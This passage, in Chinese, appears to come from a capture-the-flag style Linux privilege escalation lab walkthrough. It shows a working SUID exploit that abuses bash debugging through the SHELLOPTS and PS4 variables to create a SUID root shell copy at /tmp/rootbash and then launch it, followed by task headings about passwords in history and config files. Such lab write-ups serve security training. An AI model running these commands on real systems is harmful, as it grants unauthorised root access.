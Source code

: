 **运行 **/usr/local/bin/suid-env2** 可执行文件，启用 bash 调试，并将 PS4 变量设置为一个嵌入式命令，这将创建/bin/bash 的 suid 版本:**

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

**使用-p 运行/tmp/rootbash 可执行文件，以获得使用 root 权限运行的 shell:**

```
/tmp/rootbash -p
```

****记得在继续之前删除/tmp/rootbash 可执行文件并退出提升的 shell，因为您稍后将在房间中再次创建该文件！****

```
rm /tmp/rootbash
exit
```

**![](img/335c0fd13709e8c9649087ee67b6fdc9.png)**

# **任务 16:密码和密钥-历史文件**

**![](img/89705d22a946ab62350ae220017a0f5d.png)**

**使用密码切换到 root 用户:**

```
su root
```

# **任务 17:密码和密钥-配置文件**
